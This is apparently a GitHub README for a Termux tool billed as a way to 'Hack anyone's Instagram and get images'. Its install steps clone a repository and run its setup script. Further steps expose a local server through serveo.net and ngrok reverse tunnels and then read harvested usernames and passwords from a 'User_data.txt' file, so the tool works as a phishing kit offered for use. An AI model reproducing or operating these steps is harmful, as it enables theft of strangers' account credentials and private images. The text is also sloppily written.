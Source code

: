<h1 align="center"><u>MasterHacker</u></h1>

![Hack page and get images](https://raw.githubusercontent.com/Mouse99-tech/Photo/refs/heads/main/IMG_20250205_093528.jpg)
<h3 align="center"> Hack anyone's Instagram and get images!</h3>




### [TERMUX] Install All Comments


```
pkg update && pkg upgrade -y
```
```
pkg install git
```
```
git clone https://github.com/Masterdas/Instagram.git
```
```
cd Instagram
```
```
bash setup.sh
```
```
instagram
```
### Exit Termux New SESSION 
```
cd
```
### Enter Password
```
ssh-keygen -t rsa -b 2048
```
```
ssh -R 80:localhost:8080 serveo.net
```
```
ssh -R 443:localhost:8080 v2@connect.ngrok-agent.com http
```
```
yes
```
```
cat /storage/emulated/0/Download/User_data.txt
```
- `CTRL +  x enter`
- 🗃️ Open Manager, Download Folder, User_data.txt

### [Termux] Help Commend

1 - Termux install package

2 - Packege setup bash setup.sh

3  - Termux New tap Open
 
4 - type instagram and Start Port forwarding

5 - User Number/password = open file🗃️ Download

6 - `cd /storage/emulated/0/Download/`

7 - `instagram`



## [~] Find Me on :

- [![Github](https://img.shields.io/badge/Github-KasRoudra-green?style=for-the-badge&logo=github)](https://github.com/Masterdas?tab=repositories)

- [![Telegram](https://img.shields.io/badge/Gmail-KasRoudra-green?style=for-the-badge&logo=telegram)](https://t.me/masterdas000)

- [![Facebook](https://img.shields.io/badge/Facebook-KasRoudra-green?style=for-the-badge&logo=facebook)](https://facebook.com/x)


